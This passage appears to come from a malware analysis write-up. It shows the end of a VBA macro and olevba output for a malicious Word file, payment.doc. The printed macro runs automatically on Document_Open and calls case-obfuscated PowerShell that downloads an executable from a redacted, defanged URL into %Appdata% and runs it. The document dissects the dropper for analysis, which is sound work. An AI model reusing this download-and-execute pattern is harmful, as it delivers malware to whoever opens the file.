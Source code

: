 ```vb
ActiveDocument.Save
End If
Kill x$
Application.ScreenUpdating = True
End Sub

Private Sub Document_Open()
Call GOODSub
End Sub
```

#### `olevba .\payment.doc`

```vb
PS C:\Users\vagrant\Desktop\work> olevba .\payment.doc                                                                                olevba 0.55.1 on Python 3.7.2 - http://decalage.info/python/oletools
===============================================================================
FILE: .\payment.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: .\payment.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub Document_Open()
Shell ("cmd.exe /c PoWerSHElL (nEW-oBjEcT sYsTeM.neT.wEBcLiEnT).dOWNLOadfIlE('hxxp://<REDACTED>/NDGAFV.exe','%Appdata%\playa.exe');&start %Appdata%\playa.exe& exit")
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|PoWerSHElL          |May run PowerShell commands                  |
|Suspicious|nEW-oBjEcT          |May create an OLE object using PowerShell    |
|Suspicious|neT.wEBcLiEnT       |May download files from the Internet using   |
|          |                    |PowerShell                                   |
|Suspicious|dOWNLOadfIlE        |May download files from the Internet using   |
|          |                    |PowerShell                                   |
|Suspicious|sYsTeM              |May run an executable file or a system       |
|          |                    |command on a Mac (if combined with           |
|          |                    |libc.dylib)                                  |
|IOC       |hxxp://XXXXXXXXXXXXX|URL                                          |
|          |XXXXXXXX/NDGAFV.exe'|                                             |
|          |,'%Appdata%\playa.ex|                                             |
|          |e'                  |                                             |
|IOC       |cmd.exe             |Executable file name                         |
|IOC       |NDGAFV.exe          |Executable file name                         |
|IOC       |playa.exe           |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```
